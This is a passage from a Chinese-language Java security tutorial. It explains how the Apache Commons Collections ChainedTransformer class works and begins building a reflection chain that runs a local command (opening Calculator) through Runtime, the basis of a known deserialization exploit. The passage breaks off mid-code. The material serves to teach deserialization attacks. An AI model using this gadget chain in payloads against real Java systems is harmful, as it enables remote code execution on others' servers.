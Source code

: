 

## ChainedTransformer

`org.apache.commons.collections.functors.ChainedTransformer`类封装了`Transformer`的链式调用，我们只需要传入一个`Transformer`数组，`ChainedTransformer`就会依次调用每一个`Transformer`的`transform`方法。

**`ChainedTransformer.java`:**

```java
public class ChainedTransformer implements Transformer, Serializable {
  
  /** The transformers to call in turn */
  private final Transformer[] iTransformers;
  
  // 省去多余的方法和变量
  
  public ChainedTransformer(Transformer[] transformers) {
      super();
      iTransformers = transformers;
  }
  
  public Object transform(Object object) {
      for (int i = 0; i < iTransformers.length; i++) {
          object = iTransformers[i].transform(object);
      }

      return object;
  }
  
}
```

**使用ChainedTransformer实现调用本地命令执行方法：**

```java
package com.anbai.sec.serializes;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class ChainedTransformerTest {

	public static void main(String[] args) throws Exception {
		// 定义需要执行的本地系统命令
		String cmd = "open -a Calculator.app";

		// ChainedTransformer调用链分解

//		// new ConstantTransformer(Runtime.class
//		Class<?> runtimeClass = Runtime.class;
//
//		// new InvokerTransformer("getMethod", new Class[]{
//		// 		String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
//		// ),
//		Class  cls1       = runtimeClass.getClass();
//		Method getMethod  = cls1.getMethod("getMethod", new Class[]{String.class, Class[].class});
//		Method getRuntime = (Method) getMethod.invoke(runtimeClass, new Object[]{"getRuntime", new Class[0]});
//
//		// new InvokerTransformer("invoke", new Class[]{
//		// 		Object.class, Object[].class}, new Object[]{null, new Object[0]}
//		// )
//		Class   cls2         = getRuntime.getClass();
```